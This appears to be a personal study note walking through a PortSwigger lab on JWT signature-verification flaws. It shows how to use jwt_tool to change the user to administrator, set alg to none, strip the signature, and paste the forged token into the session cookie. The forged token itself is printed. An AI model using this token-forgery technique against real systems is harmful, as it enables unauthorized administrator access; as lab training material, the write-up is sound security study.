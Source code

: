 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/jwt/lab-2-flawed-signature-verification/"}
---
```



---

Among other things, the JWT header contains an `alg` parameter. JWTs can be signed using a range of different algorithms, but can also be left unsigned. In this case, the `alg` parameter is set to `none`, which indicates a so-called "unsecured JWT".

Log in normally with the given credentials

![Pasted image 20250419170714.png](/img/user/Images/Pasted%20image%2020250419170714.png)

The JWT Token is in the session cookie

![Pasted image 20250419170837.png](/img/user/Images/Pasted%20image%2020250419170837.png)

We use the tool, `jwt_tool` to modify `wiener` to `administrator` and  change the `alg` parameter value from `RS256` to `none` 

```shell
python3 jwt_tool.py [TOKEN] -T
```

![Pasted image 20250419171039.png](/img/user/Images/Pasted%20image%2020250419171039.png)

![Pasted image 20250419172252.png](/img/user/Images/Pasted%20image%2020250419172252.png)

Use the tampered JWT Token and replace the cookie but we only take the `header` and `payload` part . The signature is removed (leaving the trailing period)

```
eyJraWQiOiJhMWNjODc1OS02NGEwLTRhZGItYTczMy1hZjdhOTM0ZTcyZDkiLCJhbGciOiJub25lIn0.eyJpc3MiOiJw
b3J0c3dpZ2dlciIsImV4cCI6MTc0NTA1Njk1OCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
```

![Pasted image 20250419172701.png](/img/user/Images/Pasted%20image%2020250419172701.png)

